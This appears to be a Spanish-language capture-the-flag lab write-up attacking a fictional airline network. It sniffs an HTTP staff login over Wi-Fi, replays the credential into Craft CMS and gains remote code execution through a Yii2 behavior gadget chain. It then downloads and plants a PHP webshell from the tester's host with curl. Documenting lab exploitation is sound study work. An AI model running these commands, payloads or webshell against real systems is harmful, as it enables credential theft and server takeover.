
*Fig. 3.9 — Rutas observadas que confirman que el host de paso es la única vía hacia la red interna.*

> **Fallo de seguridad:** la estación de trabajo del contratista está conectada simultáneamente a la red de gestión y a la red Wi-Fi interna de acceso, concediendo un puente hacia una red supuestamente aislada.

---

## 4. Enumeración del portal de millas

`portal.international.htb` sirve la aplicación de millas ("HTB Airways Miles") y, en `/miles/login.php`, un formulario de acceso de empleados por **HTTP sin cifrar**.


*Fig. 4.1 — Respuesta HTTP del portal. Evidencia de que el portal se sirve en texto plano (sin TLS), condición necesaria para la captura posterior.*


*Fig. 4.2 — La pantalla muestra `wifi.international.htb` → `10.13.37.1` y un `curl` que agotó el tiempo de espera. No demuestra el mapeo de `portal.international.htb`; ese dato se verifica con `getent hosts` en el bloque de comandos.*


*Fig. 4.3 — Aplicación de millas accesible por HTTP; la portada enlaza al alta de sesión de empleados.*


*Fig. 4.4 — Enumeración de rutas del portal (`/miles/`, `login.php`, `index.html`) para localizar el punto de autenticación.*


*Fig. 4.5 — Formulario `/miles/login.php`. El POST viaja por HTTP: sus campos serán capturables en el segmento Wi-Fi.*

---

## 5. Captura de credenciales en claro (interfaz monitor `mon0`)

Tras descartar una prueba sobre `wlan3`, se usó `mon0` como interfaz monitor. La captura definitiva se guardó en `/tmp/layover-staff.pcap`; allí se aisló el `POST` de login:

```bash
sudo iw phy phy2 interface add mon0 type monitor
sudo ip link set mon0 up
sudo tcpdump -i mon0 -s0 -U -w /tmp/layover-staff.pcap
tshark -r /tmp/layover-staff.pcap -Y "http.request.method == POST" \
      -T fields -e frame.number -e ip.src -e ip.dst -e http.host -e http.request.uri 2>/dev/null | head
# 296   10.13.37.132    10.13.37.10    portal.international.htb    /miles/login.php
```

El cuerpo del `POST` (`x-www-form-urlencoded`) contiene exactamente dos campos:

```
fields [('username', 5), ('password', 15)]
```

Se extrae el cuerpo y se reproduce la petición de login contra `/miles/login.php`:

```bash
curl -sS --max-time 10 -D /tmp/layover-login-headers -o /tmp/layover-login-response \
     -c /tmp/layover-cookies -b /tmp/layover-cookies \
     --data-binary @/tmp/layover-login-body \
     -H "Content-Type: application/x-www-form-urlencoded" \
     http://portal.international.htb/miles/login.php
# HTTP/1.1 200 OK
# <title>HTB Airways Miles — Jenny Crawford</title>
```

El `POST` devolvió una página personalizada para **Jenny Crawford**, lo que valida el par **`jenny / Fl1ght****`** en esa petición. La respuesta no emitió `Set-Cookie`; al consultar después `/miles/` con el cookie jar volvió a aparecer «Member Sign In». Por tanto, el replay **no demostró una sesión persistente en Miles**. La reutilización del par se comprobó por separado en Craft CMS.


*Fig. 5.1 — La radio anuncia soporte de modo monitor. Esto justifica crear una interfaz de captura; todavía no acredita que se hayan obtenido paquetes de otros clientes.*


*Fig. 5.2 — Ensayo sobre `wlan3` con `sudo`. Esta captura muestra el comando antes de completarse; no es el PCAP que entregó la credencial.*


*Fig. 5.3 — `wlan3` llegó a escuchar, pero el ajuste de canal mostró `Device or resource busy`. Se pasó a `mon0` para la captura útil.*


*Fig. 5.4 — `mon0` recibe beacons del punto de acceso. Es un control positivo del modo monitor, no aún del POST de personal.*


*Fig. 5.5 — Inicio de `tcpdump -i mon0` y creación del PCAP definitivo. El filtro de POST aún está escribiéndose; el frame 296 se ve en las figuras siguientes.*


*Fig. 5.6 — El filtro de `tshark` muestra el frame 296, origen `10.13.37.132` y destino `10.13.37.10`, URI `/miles/login.php`. Aquí aparece por primera vez el POST en una captura.*


*Fig. 5.7 — Parseo del cuerpo `application/x-www-form-urlencoded`: dos campos (`username`, `password`). La estructura del formulario queda confirmada.*


*Fig. 5.8 — Listado de los campos extraídos del POST (longitudes `username` 5 / `password` 15). Los valores van redactados en esta versión pública.*

> **Fallo de seguridad:** transporte de credenciales de empleado por **HTTP sin cifrar** en una red Wi-Fi donde el host de paso pudo observar el POST de otro cliente. La captura efectiva requirió `sudo` en este laboratorio; no se atribuye ese privilegio únicamente al grupo `wireshark`.

---

## 6. Acceso al control panel de Craft CMS y RCE

`portal.international.htb` corre **Craft CMS 5.9.8** (rutas `/admin`, `/cpresources/*`, `CRAFT_ENVIRONMENT=production`). La credencial capturada es válida en el panel:

```bash
curl -s -o /dev/null -w "%{http_code} %{redirect_url}\n" \
     http://portal.international.htb/admin/dashboard
# 302 http://portal.international.htb/admin/login
```

Login con el token CSRF y el nombre de campo `loginName` que usa Craft. El reproducer [`craft_login.py`](craft_login.py) solicita la contraseña por terminal; no se escribe en el comando ni en el repositorio:

```bash
python3 craft_login.py jenny /tmp/cj
# -> login HTTP 200 / dashboard 200 / "AUTHED"
```

El primer intento con el campo `username` devolvió `400` por parámetro requerido ausente. El formulario de Craft usa `loginName`. Una versión temprana del script leía sólo 4000 bytes del dashboard y podía mostrar `NOT_AUTHED` aunque el marcador CSRF estuviera más adelante; el reproducer adjunto lee el cuerpo completo y comprueba que la URL final no sea `/admin/login`.

**Vector de RCE.** Con sesión válida, el endpoint

```
POST /admin/actions/element-search/search
```

instancia objetos a partir del JSON recibido. Se adjunta un *behavior* de Yii2 a un elemento de búsqueda:

- clase: `yii\behaviors\AttributeTypecastBehavior`
- callable de `typecastBeforeSave`: `[Psy\Readline\Hoa\ConsoleProcessus, 'execute']`
- el comando va dentro del payload

Como el behavior se engancha al evento `beforeSave`, el callable se invoca con argumentos controlados → **ejecución ciega** (la respuesta HTTP es `500`, la ejecución no depende del cuerpo devuelto). Confirmación escribiendo la salida en un fichero servible:

```bash
python3 layover_rce.py "id > /var/www/portal/web/assets/o.txt 2>&1"
curl -s http://portal.international.htb/assets/o.txt
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

El script [`layover_rce.py`](layover_rce.py) necesita el cookie jar `/tmp/cj` generado por el login anterior. Un `500` en la petición ciega no basta como prueba: la lectura de `o.txt` proporciona el resultado del comando.

**Despliegue de webshell.** Tras un intento de transferencia por redirección que no creó el fichero esperado, se usó `curl --output` y un servidor HTTP local como origen:

```bash
python3 layover_rce.py "curl http://10.13.37.182:8080/shell.php --output /var/www/portal/web/assets/shell.php"
curl -s "http://portal.international.htb/assets/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`shell.php` = `<?php system($_GET["cmd"]); ?>`. A partir de aquí se opera como `www-data`.

